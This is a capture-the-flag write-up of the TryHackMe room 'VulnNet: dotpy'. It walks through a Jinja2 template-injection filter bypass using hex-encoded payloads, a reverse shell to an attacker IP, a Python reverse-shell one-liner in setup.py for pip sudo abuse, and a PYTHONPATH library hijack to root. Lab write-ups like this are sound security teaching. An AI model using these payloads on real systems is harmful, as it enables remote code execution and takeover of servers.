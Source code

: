 ```yaml
---
title: "VulnNet: dotpy TryHackMe"
layout: post
date: 2023-11-11 19:00
tag: 
- TryHackMe
- Pentesting
- VulnNet
- Linux
- SSTI
- Meduim
- Python
- Hijacking
image: https://tryhackme-images.s3.amazonaws.com/room-icons/d0b3851085d530abbff79210cea04b5d.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

This machine is a python focused machine that was designed to be a bit more challenging but without anything too complicated. It requires to not only find a vulnerable endpoint but also bypass its security protection. We should also pay attention to the output the website gives us.

---

# Nmap

```bash
nmap -A -T4 10.10.113.156
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 10:51 +01
Nmap scan report for 10.10.113.156
Host is up (0.099s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.113.156:8080/login
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
```

I only have one open port which contains a login page :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106105356.png>)

Firstly, I created an account called test :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106105644.png>)

Then I am in I see dashboard in front of me, I checked all its options but nothing seemed suspicious :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106105742.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106110548.png>)

While I was looking for a venerable point to exploit, I found that when I go to some endpoint that doesn't exist, the name of the directory is reflected on the error page, so I thought directly about XSS and SSTI :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106110828.png>)

And yes is is really vulnerable to SSTI :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106110759.png>)

I noticed that there is a filtering on the input provided by the user :

{% raw %}
```js
{{self.__init__.__globals__.__builtins__.__import__("os").popen("id").read()}}
```
{% endraw %}

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106111411.png>)

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

After a lot of tries I found the right payload :

{% raw %}
```js
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
{% endraw %}

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106113521.png>)

Now I will try to get a reverse shell :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106114320.png>)

{% raw %}
```js
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x62\x61\x73\x68\x20\x2d\x63\x20\x27\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x30\x2e\x39\x2e\x31\x2e\x31\x31\x37\x2f\x39\x39\x39\x39\x20\x30\x3e\x26\x31\x27')|attr('read')()}}
```
{% endraw %}

And I am in as web user :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106114301.png>)

# web -> system-adm

Checking the privileges of our current user we see that we can run pip3 as `system-adm` user :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106121552.png>)

[https://gtfobins.github.io/gtfobins/pip](https://gtfobins.github.io/gtfobins/pip)

I created a setup.py file that contains the content bellow and uploaded to the remote machine :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.117",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Voilà I got a shell as `system-adm` user : 

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122922.png>)

Now I can read the user flag :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122439.png>)

# PE

Running sudo -l again, it shows that we can run change the PYTHONPATH variable and run the `/opt/backup.py` owned by root : 

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122017.png>)

```python
from datetime import datetime
from pathlib import Path
import zipfile

OBJECT_TO_BACKUP = '/home/manage'  # The file or directory to backup
BACKUP_DIRECTORY = '/var/backups'  # The location to store the backups in
MAX_BACKUP_AMOUNT = 300  # The maximum amount of backups to have in BACKUP_DIRECTORY
object_to_backup_path = Path(OBJECT_TO_BACKUP)
backup_directory_path = Path(BACKUP_DIRECTORY)
assert object_to_backup_path.exists()  # Validate the object we are about to backup exists before we continue
# Validate the backup directory exists and create if required
backup_directory_path.mkdir(parents=True, exist_ok=True)
# Get the amount of past backup zips in the backup directory already
existing_backups = [
    x for x in backup_directory_path.iterdir()
    if x.is_file() and x.suffix == '.zip' and x.name.startswith('backup-')
]
# Enforce max backups and delete oldest if there will be too many after the new backup
oldest_to_newest_backup_by_name = list(sorted(existing_backups, key=lambda f: f.name))
while len(oldest_to_newest_backup_by_name) >= MAX_BACKUP_AMOUNT:  # >= because we will have another soon
    backup_to_delete = oldest_to_newest_backup_by_name.pop(0)
    backup_to_delete.unlink()
# Create zip file (for both file and folder options)
backup_file_name = f'backup-{datetime.now().strftime("%Y%m%d%H%M%S")}-{object_to_backup_path.name}.zip'
zip_file = zipfile.ZipFile(str(backup_directory_path / backup_file_name), mode='w')
if object_to_backup_path.is_file():
    # If the object to write is a file, write the file
    zip_file.write(
        object_to_backup_path.absolute(),
        arcname=object_to_backup_path.name,
        compress_type=zipfile.ZIP_DEFLATED
    )
elif object_to_backup_path.is_dir():
    # If the object to write is a directory, write all the files
    for file in object_to_backup_path.glob('**/*'):
        if file.is_file():
            zip_file.write(
                file.absolute(),
                arcname=str(file.relative_to(object_to_backup_path)),
                compress_type=zipfile.ZIP_DEFLATED
            )
# Close the created zip file
zip_file.close()
```

Analyzing the source code of the file, we see that it imports the zipfile python library, so I directly thought about python library hijacking.

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122351.png>)

I created a malicious zipfile in /tmp which spawns a root shell and I made it executable :

```python
import os
os.system('/bin/bash')
```

The I changed the PYTHONPATH to point on the /tmp folder :

```bash
chmod +x zipfile.py
sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/backup.py
```

BOOM I got a shell as root :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106121827.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>